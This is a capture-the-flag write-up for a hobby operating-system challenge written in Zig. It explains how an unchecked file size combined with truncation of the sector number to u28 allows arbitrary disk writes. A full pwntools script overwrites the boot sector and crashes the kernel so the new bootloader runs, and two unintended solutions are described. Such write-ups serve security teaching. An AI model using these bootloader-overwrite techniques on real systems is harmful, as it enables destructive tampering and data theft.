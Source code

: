 
# Provided files
- dist.zip

# Intended

When run locally, it spits out some initialization text and then a menu:
```text noheader
[+] entering mbrsector
[+] switching to bootsector
[+] enter bootsector
[+] switching to extended bootloader
[+] enter extended bootloader
[+] boot args:
- drive: 0x80
- partition: partitions.Partition{ .attributes = 128, .start_chs = 257, .type = 
1, .end_chs = 16143, .start_lba = 63, .sectors = 945 }
- index: 0
[+] init disk
FAT FS TYPE: fat32
[+] switching to bootstrap
[+] enter bootstrap stagenter code32
leave code32
enter code64
stack bottom: 0000000000FE0000
stack top: 00000000013E0000
first availible sector: 945

0. print flag variable
1. input program
2. echo on
3. echo off
4. exec file
5. open file
6. seek file
7. make file
8. write file
```

The menu code belongs to `src/shell.zig` and gives us a few options.

- input program: executes an limited interpreted language that is not exploitable
- echo on/echo off: toggles shell echo
- exec file: feeds the current file's contents through the interpreter
- open file: opens a file handle
- seek file: seeks to a position within the current file
- make file: creates a file
- write file: writes data to the current file

The bugs in this challenge is are problems in the implementation of the filesystem in `src/fs.zig` and `src/disk.zig`:

## Arbitrary file size
The code that handles creating a file does not perform any sort of file size validation.
```rs noheader
pub fn new(name: []const u8, size: usize) !*File {
    var file = try manager.create(File);
    try file.init(name, size);
    try files.put(name, file);
    return file;
}
```

## Sector truncation
When writing to a sector, the write function accepts a relative sector of size `usize` but truncates the sector to a `u28`.
```rs noheader
fn _write(relative: usize, buffer: [*]align(1) u16, sectors: u8) !void {
    var status: u8 = wait();

    const absolute = @truncate(u28, partition.start + relative);
    term.printf("writing to {} sectors to logical block {}\r\n", .{ sectors, absolute });

    // -- snip --
}
```

The two bugs allow arbitrary access to the underlying disk. If a large enough file is supplied, one can seek to an offset that when converted to disk sectors is truncated to an arbitrary disk sector of an attacker's choosing.
```rs noheader
pub const File = struct {
    name: []const u8,
    cache: [512]u8,
    sector: usize,
    size: usize,
    offset: usize,

    const Self = @This();

    // -- snip --

    pub fn write(self: *Self, buffer: []u8) !void {
        if (self.offset + buffer.len >= self.size) {
            return std.os.AccessError.InputTooLong;
        }

        var result = self.offset + buffer.len;
        defer self.offset = result;
        defer self.reload() catch |err| die(err);

        try disk.write(self.sector + self.offset / 512, @ptrCast([*]align(1) u16, buffer)[0 .. buffer.len / 2]);
    }

    pub fn seek(self: *Self, offset: usize) !void {
        if (offset >= self.size) {
            return std.os.AccessError.InputTooLong;
        }
        self.offset = offset;
        try self.reload();
    }

    // -- snip --
};
```

Using this out of bounds write to the disk, we can write to any sector of the disk. Sector 0 of the disk always contains the bootloader that the processor boots from, so we can overwrite the old bootloader with a new bootloader that dumps the disk to search for the flag.

However once the old bootloader is overwritten, the processor still needs to reboot in order to execute the new bootloader. This is where the interpreter comes into play. The interpreter makes heavy use of recursion, which can quickly overflow the stack of the application. Due to the application running in ring 0, as soon as the stack overflows the whole thing triple faults and reboots, executing our new bootloader.

## Solution
```python filename="solve.py"
from pwn import *
from subprocess import run

run(["nasm", "-f", "bin", "-o", "boot.bin", "boot.asm"], check=True)

if args.HOST and args.PORT:
    p = remote(args.HOST, args.PORT)
else:
    p = remote("localhost", 5000)

""" wait for remote to catch up """
def wait():
    p.recvuntil(b"8. write file\n")

""" new bootloader """
bootcode = open("boot.bin", "rb").read()
assert len(bootcode) == 512
m28 = (1 << 28) - 1
""" read filesystem sector offset """
p.recvuntil(b"first availible sector: ")
offset = int(p.recvline().strip())
""" calculate offset to write to sector zero """
zero = (0 - 63 - offset & m28) * 512

log.info(f"offset: {offset}")

""" create massive file """
wait()
log.info(f"creating file")
p.send(b"7\ntmp\n9999999999999999\n")

""" seek to malicious offset """
wait()
log.info(f"seeking to offset")
p.send(b"6\n" + str(zero).encode() + b"\n")

""" write new bootloader """
wait()
log.info(f"writing new bootloader")
p.send(b"8\n512\n" + bootcode + b"\n")
p.recvuntil(b"writing to ")
count = int(p.recvuntil(b" ").strip(b" "))
p.recvuntil(b"sectors to logical block ")
sector = int(p.recvline().strip())
log.info(f"count: {count}, sector: {sector}")

""" disable echo to reduce output """
wait()
log.info(f"disabling echo")
p.send(b"3\n")

""" force the interpreter to recurse and overflow the stack """
wait()
log.info(f"rebooting remote")
p.send(b"1\n" + b"{" * 0x2000 + b"\n")

p.interactive(textonly=True)
```

# Unintendeds

## Leak flag using exec errors
Using the same giant file / arbitrary seek bug from before, it is possible to leak the flag character by character using the file exec option because it immediately errors and leaks a character. Lesson learned. Dont create helpful errors.

## iPXE command line tricks
If you overwrite the bootloader signature `0xAA55` and reboot, it fails to boot and allows access to the iPXE commandline. Once there it allows a dump of the disk which can be used to extract the flag.
